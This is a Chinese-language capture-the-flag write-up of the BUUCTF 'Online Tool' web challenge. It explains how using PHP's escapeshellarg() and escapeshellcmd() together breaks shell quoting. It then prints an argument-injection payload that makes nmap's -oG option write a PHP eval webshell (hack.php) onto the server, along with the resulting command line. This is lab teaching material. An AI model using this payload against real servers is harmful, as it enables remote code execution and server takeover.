







BUUCTF-Web-[BUUCTF 2018]Online Tool
本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，题目直接给我们源码，进行审计，

1 |
|
代码不是很长，但是要构造payload需要了解一下东西，
escapeshellarg()和escapeshellcmd()
这两个是PHP中用于安全处理命令行参数的函数，但它们的组合使用有时会产生意外的结果，两个组合一起就会产生安全隐患。
escapeshellarg()
功能：将字符串转义为安全的shell参数
特点：
在整个字符串周围添加单引号
将字符串中已有的单引号转义为 '\''（先关闭引号，转义单引号，再打开引号）
确保字符串被当作一个整体参数传递
简单案例：
1 | $input = "it's"; |
escapeshellcmd()
功能：转义shell元字符
特点：
转义以下字符：#&;|*?~<>^()[]{}$`、换行符和回车符
不添加引号
主要用于转义整个命令中的特殊字符
实例：
1 | $input = "hello;world"; |
两个一起组合如何产生漏洞
当这两个函数组合使用时（特别是先escapeshellarg再escapeshellcmd），可能会产生漏洞：
1 | $input = "' <?php code ?> -oG evil.php '"; |
Bash解析时的行为：
1.开头处：''\\'' 被解析为字面字符串 \
开头的''是空字符串
\\被解释为字面反斜杠
''又是空字符串
2.中间的 <?php code ?> -oG evil.php因引号被破坏而成为独立参数
3.末尾：最后的'→ 可能被忽略或与后续内容关联
'\\''' 可以拆解为以下部分：
'\\' → 单引号包裹的两个反斜杠
'' → 空字符串
' → 未闭合的单引号（实际会与后续内容关联）
构造payload
1 | ?host=' <?php @eval($_POST["hack"]);?> -oG hack.php ' |
nmap有一个参数-oG可以实现将命令和结果写到文件，
将一句话木马写入hack.php文件中，相当于传入一个木马文件，
当这个字符串被拼接到nmap命令中时：
1 | nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' <?php @eval($_POST["hack"]);?> -oG hack.php '\\''' |
转义后的字符串在Bash中解析时，PHP代码部分会被当作普通参数传递给nmap，
nmap的-oG选项允许将结果输出到文件，结合PHP标签可以创建webshell


写入成功，




获得flag